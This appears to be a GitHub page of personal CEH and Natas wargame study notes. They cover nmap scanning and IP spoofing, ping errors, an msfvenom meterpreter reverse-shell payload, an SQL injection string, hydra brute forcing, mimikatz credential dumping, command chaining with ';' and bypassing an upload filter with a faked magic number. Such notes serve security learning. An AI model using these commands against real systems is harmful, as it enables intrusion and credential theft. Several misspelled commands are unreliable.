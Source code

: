 # CEH
## Commands tips
use `traceroute` for getting we pass what routers to get to network.
## Websites and application tips
> this [site](https://www.iplocation.net/) says the ip is for where, and this [site](who.is) says who create this website.

> for getting special file type in google add `filetype:[type]` after **website domain** and add `site:` before it.
>
> use `maltego` to get datas from a website.

## ip spoofing
ip spoofing means you stealing ip when some ips have access.
we use **nmap** for scaning ports. use it like this:
```console
nmap [ip address] [option] [port]
```
for example for scaning port 80 in specific ip, do like this
```console
nmap 192.168.1.6 -Pn -p 80
```
for changing ip with nmap do this:
```console
nmap -S [new ip] -Pn -p [port] -e [interface] [ip target]
```
## ICMP
### Ping
ping means ip can you here me?
type **one** *successed*
```console
ping 4.2.2.4
# reply from 4.2.2.4: bytes=32 time=30ms TTL=46
```
type **two** *request timed out*: it means somewhere we have problem but we don't know where
```console
ping 4.2.2.4
# request timed out
```
type **three** *destination host unreachable*: you must focus on ***reply from*** destination after that ip is down but may be
```console
ping 4.2.2.4
# reply from 4.2.2.8: destination host unreachable
```
type **four** *destination net unreachable*: it means you don't have access to that network
```console
ping 4.2.24
# reply from 192.168.1.1: destination net unreachable
```
type **five** *admin prohibited*: means admin says don't give access to you
```console
ping 4.2.2.4
# reply from 4.2.2.8: communication with administer prohibited
```
### msfvenom
**msfvenom** use for making a file to add upload as payload.
```console
msfvenom -p windows/meterpreter/reverce_tcp -f war > file.war
```
in here after `-p` we must add our platform and payload type and after `-f` add format and after `>` name the file.

for changing process you can use `migrate`.
with `python3 -m http.srever [port]` you can make a server in your directory
for social engineering you can use `setoolkit` but remember you must be **root**.
for remoting desktop you must use `seth`. you can clone it from [here](https://github.com/SySS-Research/Seth)
### sql
for getting username in sql use `' or 1=1;--`
you can use `sqlmap` for checking database

# burt force
check many passwords to get password. we use `hydra`
```console
hydra -l [user] -P [password_list] protocol://ip
```
we have a password list in kali in `/user/share/rockyou.txt/`

with `load kiwi` and then use this code you can get some passwords that's are in ram as a clear text.
```console
kiwi_cmd sekurlsa::logonpasswords
```

for cracking hash, we can use ophcrack. and get the tables of it from its [website](https://ophcrack.sourceforge.io/tables.php)
## Wifi
for attacking wifi we need `airgeddon`. it must run with `sudo`.

# Natas
1- checking directory of website
2- check the robots.txt
> robots.txt is a file that says to **search engine** to what to do

3- whenever we don't have access except an specific adress we can make link on that adress
4- sometimes you need to change the cookies for example log in
5- with `curl` you can get access to some parts of website
6- you can see a page after `?page=`
7- when we have **command** in codes you can seprate command with `;`
8- with grep you can add -r for searching in directory
> we know grep use regex

9- sometimes you must change some cookies for access
10- if you can upload a file, you can change the format and run what you want...(use burpsuit)
11- magic number is a part of your file that shows what type is it. you can add magic number to  the first of your php file to access to uploading it. you can change magic number with `hexeditor`.
